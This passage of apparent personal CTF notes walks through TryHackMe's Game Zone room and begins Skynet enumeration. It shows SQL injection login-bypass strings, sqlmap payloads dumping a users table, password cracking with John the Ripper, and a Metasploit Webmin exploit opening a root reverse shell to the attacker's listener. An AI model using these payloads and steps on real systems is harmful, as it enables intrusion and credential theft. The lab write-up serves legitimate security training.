80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Game Zone
MAC Address: 02:70:51:D3:15:13 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Gaining Access
use this for login in the browser 
```
username: ' or 1=1 -- -
password: ' or 1=1 -- -

# The SQL query that now gets executed on the web server is as follows:
# SELECT * FROM users WHERE username = admin AND password := ' or 1=1 -- -
```

now we will be redirected to portal.php

use burp proxy to intercept http request while using the search bar
```http
POST /portal.php HTTP/1.1
Host: 10.10.170.197
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://10.10.170.197
Connection: close
Referer: http://10.10.170.197/portal.php
Cookie: PHPSESSID=cc8uj1v95p6mkopukl79plusb7
Upgrade-Insecure-Requests: 1

searchitem=%5EPAYLOAD%5E
```

Save to a file gamezone-search-request.txt
sqlmap -r gamezone-search-request.txt --dbms=mysql --dump
```bash
root@ip-10-10-32-99:~/repo# sqlmap -r gamezone-search-request.txt --dbms=mysql --dump
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 14:04:45

[14:04:45] [INFO] parsing HTTP request from 'gamezone-search-request.txt'
[14:04:45] [INFO] testing connection to the target URL
[14:04:45] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS/IDS
[14:04:45] [INFO] testing if the target URL content is stable
[14:04:46] [INFO] target URL content is stable
[14:04:46] [INFO] testing if POST parameter 'searchitem' is dynamic
[14:04:46] [WARNING] POST parameter 'searchitem' does not appear to be dynamic
[14:04:46] [INFO] heuristic (basic) test shows that POST parameter 'searchitem' might be injectable (possible DBMS: 'MySQL')
[14:04:46] [INFO] heuristic (XSS) test shows that POST parameter 'searchitem' might be vulnerable to cross-site scripting (XSS) attacks
[14:04:46] [INFO] testing for SQL injection on POST parameter 'searchitem'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[14:04:55] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:04:55] [WARNING] reflective value(s) found and filtering out
[14:04:55] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[14:04:55] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[14:04:55] [INFO] POST parameter 'searchitem' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable (with --string="be")
[14:04:55] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[14:04:55] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[14:04:55] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[14:04:55] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[14:04:55] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[14:04:55] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[14:04:55] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[14:04:55] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[14:04:55] [INFO] POST parameter 'searchitem' is 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable
[14:04:55] [INFO] testing 'MySQL inline queries'
[14:04:55] [INFO] testing 'MySQL > 5.0.11 stacked queries (comment)'
[14:04:56] [INFO] testing 'MySQL > 5.0.11 stacked queries'
[14:04:56] [INFO] testing 'MySQL > 5.0.11 stacked queries (query SLEEP - comment)'
[14:04:56] [INFO] testing 'MySQL > 5.0.11 stacked queries (query SLEEP)'
[14:04:56] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[14:04:56] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[14:04:56] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'
[14:04:56] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind'
[14:05:46] [INFO] POST parameter 'searchitem' appears to be 'MySQL >= 5.0.12 OR time-based blind' injectable
[14:05:46] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[14:05:46] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[14:05:46] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[14:05:46] [INFO] target URL appears to be UNION injectable with 3 columns
[14:05:46] [INFO] POST parameter 'searchitem' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[14:05:46] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
POST parameter 'searchitem' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 120 HTTP(s) requests:
---
Parameter: searchitem (POST)
Type: boolean-based blind
Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
Payload: searchitem=-9200' OR 1516=1516#

Type: error-based
Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
Payload: searchitem=PAYLOAD' OR (SELECT 7090 FROM(SELECT COUNT(*),CONCAT(0x717a707a71,(SELECT (ELT(7090=7090,1))),0x716a707171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- Sgyh

Type: AND/OR time-based blind
Title: MySQL >= 5.0.12 OR time-based blind
Payload: searchitem=PAYLOAD' OR SLEEP(5)-- zjaC

Type: UNION query
Title: MySQL UNION query (NULL) - 3 columns
Payload: searchitem=PAYLOAD' UNION ALL SELECT NULL,NULL,CONCAT(0x717a707a71,0x765843774951486874635946774e54626252415168455a6a575a626c6a7654747749716562506878,0x716a707171)#
---
[14:05:52] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0
[14:05:52] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[14:05:52] [INFO] fetching current database
[14:05:52] [INFO] fetching tables for database: 'db'
[14:05:52] [INFO] fetching columns for table 'post' in database 'db'
[14:05:52] [INFO] fetching entries for table 'post' in database 'db'
Database: db
Table: post
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name                           | description                                                                                                                                                                                            |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
| 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005                     | Best game ever                                                                                                                                                                                         |
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

[14:05:52] [INFO] table 'db.post' dumped to CSV file '/root/.sqlmap/output/10.10.170.197/dump/db/post.csv'
[14:05:52] [INFO] fetching columns for table 'users' in database 'db'
[14:05:52] [INFO] fetching entries for table 'users' in database 'db'
[14:05:52] [INFO] recognized possible password hashes in column 'pwd'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[14:05:57] [INFO] writing hashes to a temporary file '/tmp/sqlmapd_8Btm12023/sqlmaphashes-VLbfYJ.txt'
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[14:06:09] [INFO] using hash method 'sha256_generic_passwd'
[14:06:09] [WARNING] no clear password(s) found
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+

[14:06:09] [INFO] table 'db.users' dumped to CSV file '/root/.sqlmap/output/10.10.170.197/dump/db/users.csv'
[14:06:09] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.170.197'

[*] shutting down at 14:06:09
```

you can turn-off intercept now and use John the Ripper 
```bash
root@ip-10-10-32-99:~/repo# john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
  Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
  Warning: poor OpenMP scalability for this hash type, consider --fork=2
  Will run 2 OpenMP threads
  Press 'q' or Ctrl-C to abort, almost any other key for status
videogamer124    (?)
  1g 0:00:00:00 DONE (2023-04-26 14:17) 1.449g/s 4226Kp/s 4226Kc/s 4226KC/s vimivera..veluasan
  Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
  Session completed.
```

credentials
- username: agent47 
- password: videogamer124
now try ssh access

```bash
root@ip-10-10-32-99:~/repo# ssh agent47@$rhost
The authenticity of host '10.10.170.197 (10.10.170.197)' can't be established.
ECDSA key fingerprint is SHA256:mpNHvzp9GPoOcwmWV/TMXiGwcqLIsVXDp5DvW26MFi8.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.170.197' (ECDSA) to the list of known hosts.
agent47@10.10.170.197's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

* Documentation:  https://help.ubuntu.com
* Management:     https://landscape.canonical.com
* Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Fri Aug 16 17:52:04 2019 from 192.168.1.147
agent47@gamezone:~$ ls
user.txt
agent47@gamezone:~$ cat user.txt
649ac17b1480ac13ef1e4fa579dac95c
```

### Privilege Escalation
> Now we've gain shell, lets explore more the machine 

Check Running Services and Connections
```
agent47@gamezone:~$ ss -tupln
Netid State      Recv-Q Send-Q Local Address:Port               Peer Address:Port
udp   UNCONN     0      0       *:10000               *:*          
udp   UNCONN     0      0       *:68                  *:*          
tcp   LISTEN     0      128     *:22                  *:*          
tcp   LISTEN     0      80     127.0.0.1:3306                *:*   
tcp   LISTEN     0      128     *:10000               *:*          
tcp   LISTEN     0      128    :::22                 :::*          
tcp   LISTEN     0      128    :::80                 :::* 
```
7 Connections 

Now let's reconnect to ssh but to forward the Traffic to us 

``` 
root@ip-10-10-32-99:~/repo# ssh -L 10000:localhost:10000 agent47@$rhost
agent47@10.10.170.197's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

* Documentation:  https://help.ubuntu.com
* Management:     https://landscape.canonical.com
* Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Wed Apr 26 08:22:37 2023 from 10.10.32.99
agent47@gamezone:~$
```

Now that port 1000 is forwarded in our Machine, let's access this to the browser
> Webmin CMS
Try again the username and password from before:
- username: agent47 
- password: videogamer124


Now let's use msfconsole to check the if we have exploit on webmin
```
msf6 > search webmin

Matching Modules
================

#  Name                                           Disclosure Date  Rank       Check  Description
-  ----                                           ---------------  ----       -----  -----------
0  exploit/unix/webapp/webmin_show_cgi_exec       2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
1  auxiliary/admin/webmin/file_disclosure         2006-06-30       normal     No     Webmin File Disclosure
2  exploit/linux/http/webmin_file_manager_rce     2022-02-26       excellent  Yes    Webmin File Manager RCE
3  exploit/linux/http/webmin_package_updates_rce  2022-07-26       excellent  Yes    Webmin Package Updates RCE
4  exploit/linux/http/webmin_packageup_rce        2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
5  exploit/unix/webapp/webmin_upload_exec         2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE
6  auxiliary/admin/webmin/edit_html_fileaccess    2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
7  exploit/linux/http/webmin_backdoor             2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor


Interact with a module by name or index. For example info 7, use 7 or use exploit/linux/http/webmin_backdoor

msf6 > use 0
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > show info

Name: Webmin /file/show.cgi Remote Command Execution
Module: exploit/unix/webapp/webmin_show_cgi_exec
Platform: Unix
Arch: cmd
Privileged: Yes
License: Metasploit Framework License (BSD)
Rank: Excellent
Disclosed: 2012-09-06

Provided by:
Unknown
juan vazquez <juan.vazquez@metasploit.com>

Available targets:
Id  Name
--  ----
=>  0   Webmin 1.580

Check supported:
Yes

Basic options:
Name      Current Setting  Required  Description
----      ---------------  --------  -----------
PASSWORD                   yes       Webmin Password
Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
RPORT     10000            yes       The target port (TCP)
SSL       true             yes       Use SSL
USERNAME                   yes       Webmin Username
VHOST                      no        HTTP server virtual host

Payload information:
Space: 512

Description:
This module exploits an arbitrary command execution vulnerability in
Webmin 1.580. The vulnerability exists in the /file/show.cgi
component and allows an authenticated user, with access to the File
Manager Module, to execute arbitrary commands with root privileges.
The module has been tested successfully with Webmin 1.580 over
Ubuntu 10.04.

References:
OSVDB (85248)
http://www.securityfocus.com/bid/55446
https://nvd.nist.gov/vuln/detail/CVE-2012-2982
http://www.americaninfosec.com/research/dossiers/AISG-12-001.pdf
https://github.com/webmin/webmin/commit/1f1411fe7404ec3ac03e803cfa7e01515e71a213


View the full module info with the info -d command.
```
now let's set the options and the payload of the msfconsole

```
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > show options

Module options (exploit/unix/webapp/webmin_show_cgi_exec):

Name      Current Setting  Required  Description
----      ---------------  --------  -----------
PASSWORD  videogamer124    yes       Webmin Password
Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS    localhost        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasp
loit.html
RPORT     10000            yes       The target port (TCP)
SSL       false            yes       Use SSL
USERNAME  agent47          yes       Webmin Username
VHOST                      no        HTTP server virtual host


Payload options (cmd/unix/reverse):

Name   Current Setting  Required  Description
----   ---------------  --------  -----------
LHOST  10.10.32.99      yes       The listen address (an interface may be specified)
LPORT  4444             yes       The listen port


Exploit target:

Id  Name
--  ----
0   Webmin 1.580


View the full module info with the info, or info -d command.
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit
[*] Exploiting target 0.0.0.1

[*] Started reverse TCP double handler on 10.10.32.99:4444
[*] Attempting to login...
[-] Authentication failed
[*] Exploiting target 127.0.0.1
[*] Started reverse TCP double handler on 10.10.32.99:4444
[*] Attempting to login...
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[+] Payload executed successfully
[*] Command: echo dtoNJYEv8NiiIfAa;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "dtoNJYEv8NiiIfAa\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (10.10.32.99:4444 -> 10.10.170.197:49808) at 2023-04-26 15:16:51 +0100
[*] Session 1 created in the background.
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > sessions -i 1
[*] Starting interaction with 1...


whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/usr/share/webmin/file/

find / -name "root.txt" 2>/dev/null
/root/root.txt

cat /root/root.txt
a4b945830144bdd71908d12d902adeee
```

#### Other way to exploit 

Search webmin 1.580 exploit, choose the rapid7 link

https://www.rapid7.com/db/modules/exploit/unix/webapp/webmin_show_cgi_exec/

Description
```
 This module exploits an arbitrary command execution vulnerability in Webmin 1.580. The vulnerability exists in the /file/show.cgi component and allows an authenticated user, with access to the File Manager Module, to execute arbitrary commands with root privileges. The module has been tested successfully with Webmin 1.580 over Ubuntu 10.04. 
```

this mean you can execute a file using the path /file/show.cgi.  

try /root/root.txt

try /etc/passwd

try /etc/shadow



### Notes
for payloads go to /usr/share/wordlists

for passwords 
/usr/share/wordlists/rockyou.txt

for SQLi
/usr/share/wordlists/SecLists/Fuzzing/SQLi


## Skynet
> https://tryhackme.com/room/skynet

### Recon

Nmap
```
nmap -sVC -T4 --min-rate 8888 -O -vv $rhost
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 992331bbb1e943b756944cb9e82146c5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKeTyrvAfbRB4onlz23fmgH5DPnSz07voOYaVMKPx5bT62zn7eZzecIVvfp5LBCetcOyiw2Yhocs0oO1/RZSqXlwTVzRNKzznG4WTPtkvD7ws/4tv2cAGy1lzRy9b+361HHIXT8GNteq2mU+boz3kdZiiZHIml4oSGhI+/+IuSMl5clB5/FzKJ+mfmu4MRS8iahHlTciFlCpmQvoQFTA5s2PyzDHM6XjDYH1N3Euhk4xz44Xpo1hUZnu+P975/GadIkhr/Y0N5Sev+Kgso241/v0GQ2lKrYz3RPgmNv93AIQ4t3i3P6qDnta/06bfYDSEEJXaON+A9SCpk2YSrj4A7
|   256 57c07502712d193183dbe4fe679668cf (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBI0UWS0x1ZsOGo510tgfVbNVhdE5LkzA4SWDW/5UjDumVQ7zIyWdstNAm+lkpZ23Iz3t8joaLcfs8nYCpMGa/xk=
|   256 46fa4efc10a54f5757d06d54f6c34dfe (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICHVctcvlD2YZ4mLdmUlSwY8Ro0hCDMKGqZ2+DuI0KFQ
80/tcp  open  http        syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Skynet
110/tcp open  pop3        syn-ack ttl 64 Dovecot pop3d
|_pop3-capabilities: RESP-CODES CAPA PIPELINING SASL UIDL TOP AUTH-RESP-CODE
139/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        syn-ack ttl 64 Dovecot imapd
|_imap-capabilities: ENABLE more SASL-IR have IMAP4rev1 IDLE listed LITERAL+ capabilities ID LOGIN-REFERRALS OK LOGINDISABLEDA0001 Pre-login post-login
445/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
MAC Address: 02:8B:23:7B:23:DB (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=5/9%OT=22%CT=1%CU=40664%PV=Y%DS=1%DC=D%G=Y%M=028B23%TM
OS:=645A08E6%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=106%TI=Z%CI=I%II=I%
OS:TS=8)OPS(O1=M2301ST11NW7%O2=M2301ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW
OS:7%O5=M2301ST11NW7%O6=M2301ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68
OS:DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=
OS:40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%
OS:O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=4
OS:0%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%
OS:Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=
OS:Y%DFI=N%T=40%CD=S)

Uptime guess: 0.003 days (since Tue May  9 08:44:44 2023)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h39m59s, deviation: 2h53m12s, median: 0s
| nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| Names:
|   SKYNET<00>           Flags: <unique><active>
|   SKYNET<03>           Flags: <unique><active>
|   SKYNET<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   0000000000000000000000000000000000
|   0000000000000000000000000000000000
|_  0000000000000000000000000000
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2023-05-09T03:48:38-05:00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 6274/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 13477/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 38309/udp): CLEAN (Failed to receive data)
|   Check 4 (port 53395/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2023-05-09T08:48:38
|_  start_date: N/A
```

Directory List for gobuster
```
/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
/usr/share/seclists/Discovery/Web-Content/directory-list-1.0.txt
/usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
/usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt
/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
/usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-1.0.txt
/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt
/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
/usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
/usr/share/dirbuster/wordlists/directory-list-1.0.txt
/usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt
/usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt

└─# gobuster dir -u http://$rhost -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
  ===============================================================
  [+] Url:                     http://10.10.163.233
  [+] Method:                  GET
  [+] Threads:                 10
  [+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
  [+] Negative Status codes:   404
  [+] User Agent:              gobuster/3.2.0-dev
  [+] Timeout:                 10s
  ===============================================================
  2023/05/09 08:58:32 Starting gobuster in directory enumeration mode
  ===============================================================
  /admin                (Status: 301) [Size: 314] [--> http://10.10.163.233/admin/]
  /css                  (Status: 301) [Size: 312] [--> http://10.10.163.233/css/]
  /js                   (Status: 301) [Size: 311] [--> http://10.10.163.233/js/]
  /config               (Status: 301) [Size: 315] [--> http://10.10.163.233/config/]
  /ai                   (Status: 301) [Size: 311] [--> http://10.10.163.233/ai/]
  /squirrelmail         (Status: 301) [Size: 321] [--> http://10.10.163.233/squirrelmail/]
  /server-status        (Status: 403) [Size: 278]
  Progress: 204443 / 207644 (98.46%)===============================================================
  2023/05/09 08:58:57 Finished
  ===============================================================

```

enum4linux
```
└─# enum4linux -a $rhost | tee enum4linux.log
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
LANGUAGE = "",
LC_ALL = "en_US.UTF-8",
LANG = "C.UTF-8"
are supported and installed on your system.
perl: warning: Falling back to a fallback locale ("C.UTF-8").
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Tue May  9 09:24:56 2023

=========================================( Target Information )=========================================

Target ........... 10.10.163.233
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


===========================( Enumerating Workgroup/Domain on 10.10.163.233 )===========================


[+] Got domain/workgroup name: WORKGROUP


===============================( Nbtstat Information for 10.10.163.233 )===============================

Looking up status of 10.10.163.233
SKYNET          <00> -         B <ACTIVE>  Workstation Service
SKYNET          <03> -         B <ACTIVE>  Messenger Service
SKYNET          <20> -         B <ACTIVE>  File Server Service
..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser
WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
WORKGROUP       <1d> -         B <ACTIVE>  Master Browser
WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections

MAC Address = 00-00-00-00-00-00

===================================( Session Check on 10.10.163.233 )===================================


[+] Server 10.10.163.233 allows sessions using username '', password ''


================================( Getting domain SID for 10.10.163.233 )================================

Cannot connect to server.  Error was NT_STATUS_NOT_FOUND

[+] Can't determine if host is part of domain or part of a workgroup


==================================( OS information on 10.10.163.233 )==================================


[E] Can't get OS info with smbclient


[+] Got OS info for 10.10.163.233 from srvinfo:
Cannot connect to server.  Error was NT_STATUS_NOT_FOUND


=======================================( Users on 10.10.163.233 )=======================================

Use of uninitialized value $users in print at ./enum4linux.pl line 972.
Use of uninitialized value $users in pattern match (m//) at ./enum4linux.pl line 975.

Use of uninitialized value $users in print at ./enum4linux.pl line 986.
Use of uninitialized value $users in pattern match (m//) at ./enum4linux.pl line 988.

=================================( Share Enumeration on 10.10.163.233 )=================================


Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
anonymous       Disk      Skynet Anonymous Share
milesdyson      Disk      Miles Dyson Personal Share
IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

Server               Comment
---------            -------

Workgroup            Master
---------            -------
WORKGROUP            SKYNET

[+] Attempting to map shares on 10.10.163.233

//10.10.163.233/print$  Mapping: DENIED Listing: N/A Writing: N/A
//10.10.163.233/anonymous       Mapping: OK Listing: OK Writing: N/A
//10.10.163.233/milesdyson      Mapping: DENIED Listing: N/A Writing: N/A

[E] Can't understand response:

NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
//10.10.163.233/IPC$    Mapping: N/A Listing: N/A Writing: N/A

===========================( Password Policy Information for 10.10.163.233 )===========================

[+] Attaching to 10.10.163.233 using a NULL share

[+] Trying protocol 139/SMB...

[+] Found domain(s):

[+] SKYNET
[+] Builtin

[+] Password Info for Domain: SKYNET

[+] Minimum password length: 5
[+] Password history length: None
[+] Maximum password age: 37 days 6 hours 21 minutes
[+] Password Complexity Flags: 000000

[+] Domain Refuse Password Change: 0
[+] Domain Password Store Cleartext: 0
[+] Domain Password Lockout Admins: 0
[+] Domain Password No Clear Change: 0
[+] Domain Password No Anon Change: 0
[+] Domain Password Complex: 0

[+] Minimum password age: None
[+] Reset Account Lockout Counter: 30 minutes
[+] Locked Account Duration: 30 minutes
[+] Account Lockout Threshold: None
[+] Forced Log off Time: 37 days 6 hours 21 minutes

[+] Retieved partial password policy with rpcclient:
======================================( Groups on 10.10.163.233 )======================================
[+] Getting builtin groups:
[+]  Getting builtin group memberships:
[+]  Getting local groups:
[+]  Getting local group memberships:
[+]  Getting domain groups:
[+]  Getting domain group memberships:
==================( Users on 10.10.163.233 via RID cycling (RIDS: 500-550,1000-1050) )==================
